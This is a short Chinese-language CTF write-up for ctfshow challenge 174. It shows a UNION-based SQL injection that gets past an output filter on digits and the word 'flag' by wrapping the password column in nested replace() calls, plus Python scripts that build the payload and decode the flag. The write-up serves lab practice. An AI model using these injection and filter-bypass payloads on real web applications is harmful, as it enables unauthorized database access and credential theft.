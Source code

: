   - 过滤了数字和一些关键字flag（ctfshow 174）
    `preg_match('/flag|[0-9]/i', json_encode($ret)`

    - 利用replace函数，将数字0-9替换
      （可以写脚本把payload跑出来）

      ```python
      num = {0: "na", 1: "nb", 2: "nc", 3: "nd", 4: "ne", 5: "nf", 6: "ng", 7: "nh", 8: "ni", 9: "nj"}
      password = "password"
      for i in range(0, 10):
          password = f"replace({password},'{i}','{num[i]}')"
          print(password)
          
      # 运行得到：replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'0','na'),'1','nb'),'2','nc'),'3','nd'),'4','ne'),'5','nf'),'6','ng'),'7','nh'),'8','ni'),'9','nj')
      ```

      再拼到注入语句中：

      ```sql
      ' union select username,password from ctfshow_user4 where username='flag' --+
      
      拼接后：
      
      ' union select reverse(username),
      replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'0','na'),'1','nb'),'2','nc'),'3','nd'),'4','ne'),'5','nf'),'6','ng'),'7','nh'),'8','ni'),'9','nj')
      from ctfshow_user4 where username='flag' --+
      ```

      得到结果后再用脚本替换回来

      ```python
      flag = "ctfshow{bneeaenhnini-nhnieni-nengnfni-bnfnanj-nhabdnfnaningencbnf}"
      num = {0: "na", 1: "nb", 2: "nc", 3: "nd", 4: "ne", 5: "nf", 6: "ng", 7: "nh", 8: "ni", 9: "nj"}
      for i in range(0, 10):
          flag = flag.replace(str(num[i]), str(i))
      print(flag)
      
      # 得到ctfshow{b4eae788-78e8-4658-b509-7abd5086e2b5}
      ```

      

